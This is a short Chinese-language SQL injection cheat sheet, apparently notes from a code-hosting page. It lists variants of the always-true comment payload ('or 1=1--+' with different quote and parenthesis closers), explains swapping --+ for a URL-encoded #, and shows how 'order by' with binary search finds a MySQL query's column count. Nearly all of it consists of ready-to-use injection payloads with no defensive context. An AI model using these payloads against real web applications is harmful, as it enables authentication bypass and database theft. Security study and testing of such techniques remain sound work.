 # SQL注入
1.**常用的注释payload**
```
	or 1=1--+
	'or 1=1--+
	"or 1=1--+
	)or 1=1--+
	')or 1=1--+
	") or 1=1--+
	"))or 1=1--+
	--+ 可以用#替换，url 提交过程中 Url 编码后的#为%23
```
2. **查询字段数目**
查询字段数目主要利用MySQL里面的 order by 来判断字段数目，order by一般采用数学中的对半查找来判断具体的字段数目
```
 order by 10 --+ (二分法)
```

 